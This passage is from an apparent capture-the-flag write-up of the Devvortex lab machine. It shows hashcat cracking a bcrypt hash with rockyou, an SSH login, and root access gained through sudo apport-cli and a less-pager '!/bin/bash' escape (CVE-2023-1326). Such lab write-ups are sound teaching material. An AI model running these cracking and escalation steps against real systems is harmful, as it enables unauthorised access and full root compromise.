     |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
[OMITTED]
```

We found a bcrypt hash belong to logan and we will try use hashcat to crack it.

To start with we add the hash in a file.

```shell
labadmin@labmachine:~/devvortex$ echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > logan.hash
```

Grep the hashcat to find bcrypt hash-mode.

```shell
labadmin@labmachine:~/devvortex$ hashcat --help | grep bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```

Finally we execute hashcat to crack it.

```shell
labadmin@labmachine:~/devvortex$ hashcat -m 3200 -a 0 logan.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
[OMITTED]

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:[OMITTED]

[OMITTED]
```

Hashcat cracked the hash successfully and we use it to ssh as logan.

And we get the flag.

```shell
labadmin@labmachine:~/devvortex$ ssh logan@10.10.11.242
[OMITTED]
Last login: Mon Feb 26 14:44:38 2024 from 10.10.14.23
logan@devvortex:~$ cat user.txt
[OMITTED]
logan@devvortex:~$
```

### Privilege escalation

```shell
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
logan@devvortex:~$
```

Logan can execute apport-cli with privileged permission.

```shell
logan@devvortex:~$ /usr/bin/apport-cli --version
2.20.11
```

We find that it is apport-cli version `2.20.11` and it is vulnerable to a 
privilege escalation attack if an unprivileged user is allowed to run it with sudo.

[https://www.cvedetails.com/cve/CVE-2023-1326/](https://www.cvedetails.com/cve/CVE-2023-1326/)

The exploit works as apport-cli invokes a pager when viewing a crash. This can be used to run system commands in the context of the user executing the parent command. If it is run as root using sudo, it can be used to spawn an interactive system shell, since elevated privileges are not dropped.

We now look for running processes and then attempt to report a problem using `apport-cli` in `--file-bug` mode. 

```shell
logan@devvortex:~$ ps -ux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
logan       3058  0.0  0.2  19040  9660 ?        Ss   10:38   0:00 /lib/systemd/systemd --user
logan       3060  0.0  0.0 169188  3272 ?        S    10:38   0:00 (sd-pam)
logan       3160  0.0  0.1  14064  6076 ?        S    10:38   0:00 sshd: logan@pts/1
logan       3168  0.0  0.1   8272  5068 pts/1    Ss   10:38   0:00 -bash
logan       3688  0.0  0.1  13960  6028 ?        S    11:38   0:00 sshd: logan@pts/3
logan       3689  0.5  0.1   8272  5020 pts/3    Ss   11:38   0:00 -bash
logan       3697  0.0  0.0   9080  3556 pts/3    R+   11:38   0:00 ps -ux
```

We will use `systemd` with the `PID` 3058.

By running `apport-cli` using sudo together with option `-P` flag and the `file-bug` mode using `-f` flag, the tool will gather the information and report any issue found. When prompted we select to `view report` and since less is the default pager we run `!/bin/bash` command and spawn interactive system shell as root.

```shell
logan@devvortex:~$ sudo /usr/bin/apport-cli -P 3058 -f

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
......
*** It seems you have modified the contents of "/etc/systemd/journald.conf".  Would you like to add the contents of it to your bug report?


What would you like to do? Your options are:
  Y: Yes
  N: No
  C: Cancel
Please choose (Y/N/C): Y

*** It seems you have modified the contents of "/etc/systemd/resolved.conf".  Would you like to add the contents of it to your bug report?


What would you like to do? Your options are:
  Y: Yes
  N: No
  C: Cancel
Please choose (Y/N/C): Y
................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (717.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

We got shell as root and we get the root flag.

```shell
root@devvortex:/home/logan# cat /root/root.txt
[OMITTED]
```
